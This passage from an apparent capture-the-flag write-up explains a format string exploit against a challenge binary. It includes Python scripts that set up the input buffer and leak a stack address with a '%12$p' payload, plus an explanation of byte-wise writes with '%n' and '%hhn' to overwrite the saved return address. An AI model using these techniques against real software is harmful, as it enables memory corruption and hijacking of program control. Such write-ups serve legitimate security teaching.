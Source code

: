 While experimenting with the binary, I also figured out how to fill up the
`input` buffer so that I would land exactly at the start of `name`. However, for
subsequent overflows after the first time we call `printf`, we need 11 more
characters since "Dummy input" is no longer there.

```py
# this works only for the first overflow - subsequently, we need to add these 2 lines:
# p.sendline(b'1')
# p.sendline(b'a'*10)
def setup_buffer(p):
    for i in range(2):
        p.sendline(b'1')
        p.sendline(b'a'*17)
    p.sendline(b'1')
    p.sendline(b'a'*8)
```

---

Back to the FSB - how can I determine the offsets to leak values from? Well,
looking at the stack, "pink" should be at offset 8, and $rbp (the value we want
to leak) at offset 12. I confirmed this by testing out offset 12, and true
enough the expected value is there.

The below script will leak the value and calculate the address of our target:

```py
    setup_buffer(p)

    payload = b"%12$p"
    p.sendline(b'1')
    p.sendline(payload)

    p.sendline(b'1')
    p.sendline(b'pink')

    p.recvuntil(b'killed by ')
    rip = int(p.recvline().strip().decode(), 16) - 0x18
    print(f'rip @ {hex(rip)}')
```

To execute the write, we can use `%n`, which writes the number of characters
printed so far into the address at the specified offset. For example, if my
payload was as such:

`aaaa%8$n`

and the value at offset 8 is 0xdeadbeef, then 0x4 would be written to
0xdeadbeef. Note that 0xdeadbeef is the start of the write - %n will write to
the following 8 bytes as well, which sets everything to 0x00 except 0xdeadbeef,
which is set to 0x04.

But like I said earlier, I don't want to control the entire address - just the
last byte! Hence, I can use `%hhn` which only writes 1 byte instead of 8 bytes.

As I identified earlier, the offset of my input ("pink" in the earlier case) is
8. Controlling this value will allow me to control the address I'm writing to,
so I'll need to set it to the leaked address of $rip. 
